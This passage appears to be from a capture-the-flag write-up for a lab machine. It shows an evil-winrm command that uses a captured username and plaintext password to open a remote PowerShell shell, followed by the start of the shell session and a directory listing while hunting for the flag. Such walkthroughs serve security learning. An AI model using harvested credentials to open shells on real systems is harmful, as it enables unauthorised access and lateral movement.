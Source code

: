 
<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>



#### Lateral Movement 2

* lets try to get a shell with evil-winrm&#x20;

```bash
evil-winrm -i 10.10.11.35  -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

* cool, got it done

#### Finding the flag

```powershell
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> cd ..
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA> dir


    Directory: C:\Users\emily.oscars.CICADA


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-r---         8/28/2024  10:32 AM                Desktop
d-r---         8/22/2024   2:22 PM                Documents
d-r---          5/8/2021   1:20 AM                Downloads
d-r---          5/8/2021   1:20 AM                Favorites
d-r---          5/8/2021   1:20 AM                Links
```